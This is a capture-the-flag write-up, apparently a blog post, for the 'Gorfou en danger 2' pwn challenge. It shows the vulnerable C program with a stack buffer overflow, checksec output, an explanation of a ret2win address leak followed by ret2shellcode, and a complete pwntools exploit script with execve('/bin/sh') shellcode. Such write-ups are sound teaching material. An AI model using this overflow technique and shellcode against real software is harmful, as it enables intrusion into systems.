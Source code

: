 ```yaml
---
layout: post
title: Gorfou en danger 2
date: 06/06/2025
categories: [ctf, pwn]
tag: [pwn, ctf]
author: Paw
description: wu for the Gorfou en danger 2
---
```


```C
#include <unistd.h>
#include <stdlib.h>
#include <stdio.h>
#include <stdint.h>

int main(void);

void menu() {
    puts("      __                                                                       ");
    puts("     /\\ \\                                                                    ");
    puts("    /  \\ \\      >>========================================================<< ");
    puts("   / /\\ \\ \\     ||░█▀▄░█▀▀░█▀▀░█▀▀░░░█▀▀░█▀█░█▀█░█▀▀░█▀█░█░░░█▀▀░░░█░█░▀▀▄||");
    puts("  / / /\\ \\ \\    ||░█░█░█░█░▀▀█░█░█░░░█░░░█░█░█░█░▀▀█░█░█░█░░░█▀▀░░░▀▄▀░▄▀░||");
    puts(" / / /__\\_\\ \\   ||░▀▀░░▀▀▀░▀▀▀░▀▀▀░░░▀▀▀░▀▀▀░▀░▀░▀▀▀░▀▀▀░▀▀▀░▀▀▀░░░░▀░░▀▀▀||");
    puts("/ / /________\\  >>========================================================<<  ");
    puts("\\/___________/                                                                ");
}

void debug_info(void) { 
    // our very own "info proc map"
    printf("main address : %p\n", &main);
    printf("printf address : %p\n", *(uint64_t *)0x403008);
    void* local_var = NULL;
    printf("Stack address : %p\n", &local_var);
    return;
}

void take_command() {
    char command[0x100];
    
    printf("> ");
    read(0, command, 0x130);
    printf("Commande inconnue\n");
}

int main(void) {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);

    menu();

    printf("Terminal de contrôle à distance de la station orbilate Penrose\n");

    while (1) {
        take_command();
    }

    return 0;
}
```
In the challenge source code we can see a function called : `debug_info`

After a simple checksec we can see that NX protection is disable and there is no PIE :
```bash
    gorfou-en-danger-2 checksec --file=chall      
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   RW-RUNPATH   43 Symbols	 No	0		2		chall

```
An exploit model is given in the challenge. This model can generate shellcode, and it is not necessary to specify that this shellcode will be useful.

```C
void debug_info(void) { 
    // our very own "info proc map"
    printf("main address : %p\n", &main);
    printf("printf address : %p\n", *(uint64_t *)0x403008);
    void* local_var = NULL;
    printf("Stack address : %p\n", &local_var);
    return;
}
```

This function leak the stack adress. 

With the help of a little ret2win we will go to the `debug_info` function.

> we have already dealt with this subject

Sooo, we can stock the leak and then do a simple ret2shellcode

> : shellcode + some junk until the EIP/RIP adress + adress of the bottom of the stack 

wu: 
```python
from pwn import *

exe = ELF("./chall")
context.binary = exe

def conn():
    if args.LOCAL:
        r = process("./chall")
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = process("./chall")
    return r

def generate_shellcode():
    shellcode_asm = """
        xor     rdx, rdx
        movabs  rbx, 0x68732f6e69622fff
        shr     rbx, 8
        push    rbx
        mov     rdi, rsp
        xor     rax, rax
        push    rax
        push    rdi
        mov     rsi, rsp
        mov     al, 0x3b
        syscall 
        push    1
        pop     rdi
        push    0x3c
        pop     rax
        syscall 
	"""
    shellcode = asm(shellcode_asm, bits=64)
    return shellcode


def main():
    r = conn()
    r.recvuntil(b"> ")
    debug_addr = p64(0x00000000004004ed)
    main_addr = p64(0x0000000000400584)
    sc = generate_shellcode()
    offset = 264
    p1 = b'a'*offset + debug_addr + main_addr 
    r.sendline(p1)
    leak = r.recv().split(b' : ')

    main = int(leak[1].split(b'\n')[0][2:], 16)
    printf = int(leak[2].split(b'\n')[0][2:], 16)
    stack = int(leak[3].split(b'\n')[0][2:], 16)

    print(f'main={hex(main)}')
    print(f'printf={hex(printf)}')
    print(f'stack={hex(stack)}')
    
    pay = sc
    pay += b'a' * (offset - len(sc))
    pay += p64(stack - 0x100)
    r.sendline(pay)
    r.interactive()

if __name__ == "__main__":
    main()

```
